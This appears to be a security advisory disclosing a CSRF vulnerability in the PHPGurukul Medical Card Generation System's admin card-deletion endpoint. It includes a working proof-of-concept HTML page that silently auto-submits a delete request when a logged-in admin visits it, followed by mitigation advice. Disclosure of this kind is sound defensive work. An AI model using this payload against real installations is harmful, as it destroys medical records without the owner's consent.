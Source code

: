 **Project Name & Repo URL:**
[ Medicalcard Generations System](https://phpgurukul.com/medical-card-generation-system-using-php-and-mysql/)

**Vulnerability Type:**
CSRF

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the Manage Card functionality `(/mcgs/admin/manage-card.php)` of the Medical Card Generation System developed by PHPGurukul. The vulnerable endpoint allows an authorized admin to delete medical card records by sending a simple GET request without verifying the origin of the request (missing CSRF token and missing Origin/Referer validation). An attacker can craft a malicious webpage that, when visited by a logged-in admin, will silently trigger the deletion of a medical card record without the admin's knowledge or consent. This compromises the integrity and availability of critical medical data.

**👩‍💻Impact:**
Unauthorized Medical-Card Detail Deletion.

**🛜Proof-of-Concept (PoC):**

1)There was a delete functionality where only authenticated admin can delete medical-card information.
![1](https://github.com/user-attachments/assets/6284da25-a49b-468f-ae1d-6023548d652f)
2) HTML code to send GET request to the endpoint `/mcgs/admin/manage-card.php`.
```
<html>
  <body>
    <form action="http://127.0.0.1/mcgs/admin/manage-card.php">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="del" value="delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
3)Use the HTML code and craft a malicious URL.

![2](https://github.com/user-attachments/assets/be7c4f2c-63aa-42e7-bd31-92fff841122a)

4)After Admin clicks on the link, medical-card information will be deleted.
![3](https://github.com/user-attachments/assets/89787d6f-d7c5-47b5-a3c7-25b3e26d1764)
![4](https://github.com/user-attachments/assets/c8565a43-b7a6-469a-a61e-2980a011fbbb)
![5](https://github.com/user-attachments/assets/49735bc4-3edb-42e5-bf94-c958cd8817c4)

**Recommendation:**

Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.
